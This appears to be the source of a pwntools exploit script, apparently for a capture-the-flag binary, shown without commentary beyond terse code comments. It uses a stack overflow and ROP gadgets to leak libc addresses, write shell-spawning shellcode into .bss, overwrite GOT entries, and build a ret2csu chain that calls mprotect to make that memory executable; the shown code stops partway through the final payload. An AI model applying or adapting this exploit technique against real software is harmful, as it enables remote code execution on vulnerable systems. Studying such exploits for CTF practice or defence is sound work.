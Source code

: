 ```python
pop_rsi=0x4006b1 #pop rsi;pop r15;ret
##############################################
#get mprotect_addr
#edx=0x200 is not serious
payload1='a'*(0x80+0x08)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(write_got)+p64(8)+p64(write_plt)+p64(vul_addr)
conn.recv()
sleep(0.2)
conn.send(payload1)
sleep(0.2)
write_addr=u64(conn.recv(8))       #leak write_addr
pause()
 
libc_write=libc.symbols['write']
libc_mprotect=libc.symbols['mprotect']
mprotect_addr=libc_mprotect-libc_write+write_addr       #offset mprotect
 
#write the shellcode to bss
bss_addr=e.bss()
shellcode=asm(shellcraft.sh())
payload2='a'*(0x80+0x08)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss_addr)+p64(8)+p64(read_plt)+p64(vul_addr)
sleep(0.2)
conn.send(payload2)
sleep(0.2)
conn.send(shellcode)
 
#write the bss to got_table
pause()
bss_got=0x600a47#any empty got_table address is ok
payload3='a'*(0x80+0x08)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss_got)+p64(8)+p64(read_plt)+p64(vul_addr)
sleep(0.2)
conn.send(payload3)
sleep(0.2)
conn.send(p64(bss_addr))
 
#write the mprotect to got_table
pause()
mprotect_got=0x600a51#any empty got_table address is ok
payload4='a'*(0x80+0x08)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(mprotect_got)+p64(8)+p64(read_plt)+p64(vul_addr)
sleep(0.2)
conn.send(payload4)
sleep(0.2)
conn.send(p64(mprotect_addr))
 
pause()
#add rsp,8 
#pop rbx
#pop rbp
#pop r12            mprotect_got
#pop r13            rdx
#pop r14            rsi
#pop r15            rdi
#retn
csu_start=0x4006a6
csu_end=0x400690
payload5='a'*(0x80+0x08)+p64(csu_start)
payload5+='a'*8+p64(0)+p64(1)+p64(mprotect_got)+p64(7)+p64(0x1000)+p64(0x600000)
payload5+=p64(csu_end)
payload5+='a'*8+p64(0)+p64(1)+p64(bss_got)+p64(0)+p64(0)+p64(0)
payload5+=p64(csu_end)
```